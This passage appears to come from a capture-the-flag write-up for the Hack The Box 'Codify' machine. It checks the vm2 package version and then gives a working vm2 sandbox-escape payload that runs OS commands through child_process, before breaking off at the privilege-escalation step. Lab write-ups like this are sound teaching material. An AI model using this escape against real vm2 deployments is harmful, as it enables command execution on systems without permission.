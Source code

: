 ### Check Vulnerability

You can confirm that the application is indeed vulnerable to command injection by running the following JS code in the editor.

```js
const version = require("vm2/package.json").version;

if (version < "3.9.17") {
    console.log("vulnerable!");
} else {
    console.log("not vulnerable");
}
```


As you can see, that this application is vulnerable due to the VM2 package version being deprecated. You can get the exact version number by running -

```js
const version = require("vm2/package.json").version;
console.log(version);
```

### Exploit Codify Editor [HTB]

We can now try to exploit this vulnerable editor. A few google searches led me to [this page on the VM2 GitHub repository](https://github.com/patriksimek/vm2/issues/533#issuecomment-1750654480)

Copy and run the following code to the Codify editor to escape the sandbox and get command execution on the machine.

```js
const {VM} = require("vm2");

const vm = new VM();

const code = `
const g = ({}).__lookupGetter__;
const a = Buffer.apply;
const p = a.apply(g, [Buffer, ['__proto__']]);
p.call(a).constructor('return process')().mainModule.require('child_process').execSync('whoami');
`;

vm.run(code);
```

This should print `svc`, which is the user we are interacting as.

### Privilege Escalation

Now that we can execute commands inside the box, we need to find a way to escalate our privileges. Let's run some basic OS commands to get an overview of the machine and its users.

```bash
execSync('whoami');
```
